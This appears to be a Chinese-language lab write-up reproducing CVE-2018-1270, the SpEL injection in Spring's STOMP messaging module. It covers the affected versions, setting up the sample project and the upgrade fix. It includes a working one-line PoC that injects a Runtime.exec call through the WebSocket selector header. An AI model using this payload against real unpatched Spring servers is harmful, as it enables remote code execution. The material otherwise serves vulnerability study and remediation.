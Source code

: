 CVE-2018-1270复现
--

### 漏洞简介

STOMP（Simple Text Orientated Messaging Protocol）全称为简单文本定向消息协议，它是一种在客户端与中转服务端（消息代理Broker）之间进行异步消息传输的简单通用协议，它定义了服务端与客户端之间的格式化文本传输方式。已经在被许多消息中间件与客户端工具所支持。STOMP协议规范：https://stomp.github.io/stomp-specification-1.0.html

Spring框架中的 spring-messaging 模块提供了一种基于WebSocket的STOMP协议实现，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，攻击者可以通过构造恶意的消息来实现远程代码执行。

影响范围：SpringFramework 5.0 ~ 5.0.4，4.3 ~ 4.3.14，以及停止维护的更老版本均受影响

最新安全公告：https://pivotal.io/security/cve-2018-1275

修复方案：

1.请升级Spring框架到最新版本(5.0.5、4.3.15及以上版本);

2.如果你在用 SpringBoot，请升级到最新版本(2.0.1及以上版本);

同时Spring还修复其他两个漏洞，有兴趣的朋友可以自行分析下： https://pivotal.io/security/cve-2018-1271 https://pivotal.io/security/cve-2018-1272

### 环境搭建

搭建指南：https://spring.io/guides/gs/intellij-idea/

示例项目：https://github.com/spring-guides/gs-messaging-stomp-websocket

下载示例环境代码：

```
git clone https://github.com/spring-guides/gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3
```

打开IntelliJ IDEA，在欢迎界面点击Import Project，选择刚下载的gs-messaging-stomp-websocket示例程序中complete项目下的Maven pom.xml文件，进行导入，一顿Next操作之后，IDEA会创建一个可以直接运行的项目。

点击运行，启动Spring Boot服务，访问http://localhost:8080/。 

![](assets/idea.png)

![](assets/web.png)


篡改前端app.js中Websocket connect函数中，插入恶意selector代码，PoC如下：

```
var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('wireshark')"};
```

![](assets/poc.png)

我上面的poc就是启动我的wireshark,效果如上图

### 修复方案

修复测试，我们将pom.xml中的org.springframework.boot设置到2.0.1版本，org.springframework.boot中会引用5.0.5版本的Spring框架。再测试则会发现漏洞已经无法利用了。pom.xml：

```
 <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.1.RELEASE</version>
    </parent>
```


### 注：
文档来源：https://kingx.me/spring-messaging-rce-cve-2018-1270.html
加了点自己实践的截图

https://chybeta.github.io/2018/04/07/spring-messaging-Remote-Code-Execution-%E5%88%86%E6%9E%90-%E3%80%90CVE-2018-1270%E3%80%91/